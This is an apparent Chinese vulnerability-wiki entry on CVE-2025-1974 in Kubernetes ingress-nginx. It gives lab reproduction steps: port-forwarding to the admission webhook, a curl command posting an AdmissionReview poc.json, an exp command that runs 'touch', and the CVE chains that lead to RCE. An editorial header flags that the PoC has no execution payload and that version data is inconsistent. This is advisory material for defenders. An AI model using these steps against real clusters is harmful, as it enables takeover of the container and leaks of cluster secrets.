







# Kubernetes Ingress-nginx admission 远程代码执行漏洞 CVE-2025-1974

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响ingress-nginx、admission网络可达，完整RCE另需配置注入与载荷投递链；实验1.11.3
- 证据范围：区分网络admission与API对象创建，但内嵌poc.json只含mirror-host:test无执行载荷，不能凭日志称RCE证明；./exp来源/构建缺失

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version误抽minikube version
- 简介所有<1.12.1与分支修复1.11.5不一致，应使用分支范围
- 完整EXP参数未给实际代码或链接，PoC与声称touch结果之间缺链
- 实验port-forward是管理员布置条件，不是攻击者必要权限
- 禁用admission会影响校验功能，应说明暂时性及部署方式

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Ingress-nginx 是 Kubernetes 集群内服务对外暴露的访问接入点，用于承载集群内服务访问流量。其小于 1.12.1 的旧版本中，Kubernetes Ingress-nginx admission 控制器存在一个配置注入漏洞，已获取集群网络访问权限的远程攻击者，可以通过 `ValidatingAdmissionWebhook` 提交一个配置文件进行验证，并在配置文件中插入恶意配置，实现远程代码执行，导致 Ingress-nginx 所在容器被攻击者控制，并可能导致集群内的 Secrets 泄漏。

参考链接：

- https://github.com/kubernetes/kubernetes/issues/131009
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-1974
- https://github.com/sandumjacob/IngressNightmare-POCs
	- CVE-2025-24513: [kubernetes/kubernetes#131005](https://github.com/kubernetes/kubernetes/issues/131005)
	- CVE-2025-24514: [kubernetes/kubernetes#131006](https://github.com/kubernetes/kubernetes/issues/131006)
	- CVE-2025-1097: [kubernetes/kubernetes#131007](https://github.com/kubernetes/kubernetes/issues/131007)
	- CVE-2025-1098: [kubernetes/kubernetes#131008](https://github.com/kubernetes/kubernetes/issues/131008)
	- CVE-2025-1974: [kubernetes/kubernetes#131009](https://github.com/kubernetes/kubernetes/issues/131009)
- https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities

## 漏洞影响

```
Ingress-nginx < v1.11.0
Ingress-nginx v1.11.0 - 1.11.4
Ingress-nginx v1.12.0
```

## 环境搭建

安装 minikube 和 kubectl：

- [minikube](https://minikube.sigs.k8s.io/docs/start/)
- [kubectl](https://kubernetes.io/docs/reference/kubectl/)

启动 minikube，本环境的 minikube、kubectl、Kubernetes Server 版本如下：

```
minikube version
-----
minikube version: v1.33.1
commit: 5883c09216182566a63dff4c326a6fc9ed2982ff
```

```
kubectl version
-----
Client Version: v1.30.1
Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3
Server Version: v1.30.0
```

下载 Kubernetes Ingress-nginx 1.11.3 的 [deploy.yaml](https://github.com/kubernetes/ingress-nginx/blob/f6456ea86c6c330e7cf401ade70ce1faa757265b/deploy/static/provider/cloud/deploy.yaml)，通过 kubectl 部署资源：

```
kubectl apply -f deploy.yaml
```

部署完成后，可执行以下命令查看 ingress-nginx 命名空间中的 pod：

```
kubectl get pods -n ingress-nginx
-----
NAME                                        READY   STATUS      RESTARTS   AGE
ingress-nginx-admission-create-jmw9x        0/1     Completed   0          24m
ingress-nginx-admission-patch-jbxj6         0/1     Completed   1          24m
ingress-nginx-controller-869748796c-p4jvj   1/1     Running     0          24m
```




## 漏洞复现

查看 webhook 服务器信息，显示服务器正在监听 8443 端口：

```
kubectl describe pod ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
-----
--validating-webhook=:8443
```




使用端口转发访问 webhook 端口：

```
kubectl port-forward -n ingress-nginx ingress-nginx-controller-869748796c-p4jvj 1337:8443
```




此时，我们已将易受攻击的 webhook 服务器从 pod 转发到本地机器的本地端口 1337。执行 [poc](https://github.com/sandumjacob/IngressNightmare-POCs)，发送包含 nginx 配置的 AdmissionRequest：

```shell
curl --insecure -v -H "Content-Type: application/json" --data @poc.json https://localhost:1337/fake/path
```




查看日志，以确保执行成功：

```
kubectl logs ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
```




CVE-2025-1974 可以与其他漏洞组合利用：

- CVE-2025-1974 + CVE-2025-24514 → auth-url injection → RCE
- CVE-2025-1974 + CVE-2025-1097 → auth-tls-match-cn injection → RCE
- CVE-2025-1974 + CVE-2025-1098→ mirror UID injection → RCE

本地测试，将端口转发到 `localhost`：

```
kubectl port-forward svc/ingress-nginx-controller -n ingress-nginx 8080:80
kubectl port-forward -n ingress-nginx svc/ingress-nginx-controller-admission 8443:443
```

执行命令 `touch /tmp/awesome_poc`：

```
./exp -m c -c 'touch /tmp/awesome_poc' -i https://localhost:8443/networking/v1/ingresses -u http://localhost:8080/fake/addr
```







## 漏洞 POC

poc.json

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "namespaces"
    },
    "operation": "CREATE",
    "object": {
      "metadata": {
        "name": "deads",
        "annotations": {
            "nginx.ingress.kubernetes.io/mirror-host": "test"
        }
      },
      "spec": {
        "rules": [
        {
            "host": "jacobsandum.com",
            "http": {
            "paths": [
                {
                "path": "/",
                "pathType": "Prefix",
                "backend": {
                    "service": {
                    "name": "kubernetes",
                    "port": {
                        "number": 80
                    }
                    }
                }
                }
            ]
            }
        }
        ],
        "ingressClassName": "nginx"
      }
    }
  }
}
```

## 漏洞修复

- 更新至 1.11.5 或 1.12.1 及其以上版本。
- 确保 admission webhook 端点没有暴露在外。

缓解措施：

- 使用 `controller.admissionWebhooks.enabled=false` 参数重新安装 ingress-nginx；
- 删除名为 `ingress-nginx-admission` 的 `ValidatingWebhookConfiguration` ，并从 `ingress-nginx-controller` 容器的 Deployment 或 DaemonSet 中删除 `--validating-webhook` 参数。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
